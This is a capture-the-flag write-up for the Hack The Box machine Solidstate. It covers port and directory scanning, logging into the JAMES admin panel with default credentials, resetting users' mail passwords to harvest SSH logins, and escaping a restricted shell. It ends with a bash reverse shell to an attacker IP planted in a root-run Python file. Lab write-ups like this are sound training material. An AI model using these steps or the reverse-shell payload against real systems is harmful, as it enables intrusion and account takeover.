 # [Solidstate](https://app.hackthebox.com/machines/solidstate)


First, I do **rustscan** to identify open ports.
```bash
rustscan 10.10.10.51 -t 2000
```

![Alt text](img/image.png)


Now, it's time to nmap scan for open ports.
```bash
nmap -A -p22,25,80,110,119,4555 -sC -sV 10.10.10.51 -Pn
```

![Alt text](img/image-1.png)


Directory brute-forcing.
```bash
ffuf -u http://10.10.10.51/FUZZ  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```

It just finds 'assets' and 'images' directories.

From the result of nmap scan. We identify that **James** is running for version of **2.3.2**


Let's search for exploit.
![Alt text](img/image-2.png)


Let's try connect 4555 port with root:root credentials. It JAMES Admin Panel.

![Alt text](img/image-3.png)


We list users and find below users.

![Alt text](img/image-4.png)


We can change passwords of all users. Let's change password of all with 'dr4ks'.

![Alt text](img/image-5.png)


Let's do telnet for (110 port) with all users which we changed their password and see what emails they have.

Once I entered **username and password** 'USER mindy' and 'PASS dr4ks' I got below email.
![Alt text](img/image-6.png)



From here, I grab below credentials.

username: mindy
pass: P@55W0rd1!2@


Let's access via ssh.

While I access, I see that some commands doesn't work.

![Alt text](img/image-7.png)


Let's look at shell type by reading '/etc/passwd' file for this user.

![Alt text](img/image-8.png)


We see that it is , 'rbash' shell. It is restricted shell. We can't use some commands.

How we can bypass it,  for this , while we join via ssh need to add some options. As below that we can specify **interactive shell via '/bin/bash' binary.**


```bash
ssh -t mindy@10.10.10.51 bash
```

![Alt text](img/image-14.png)

user.txt
![Alt text](img/image-12.png)


We see 'opt' directory has file 'tmp.py' that have full permission, let's add reverse shell into this file and get root shell.

![Alt text](img/image-15.png)

Here's our reverse shell script.
```bash
os.system('bash -c "bash -i >& /dev/tcp/10.10.16.3/1234 0>&1"')
```

root.txt

![Alt text](img/image-16.png)
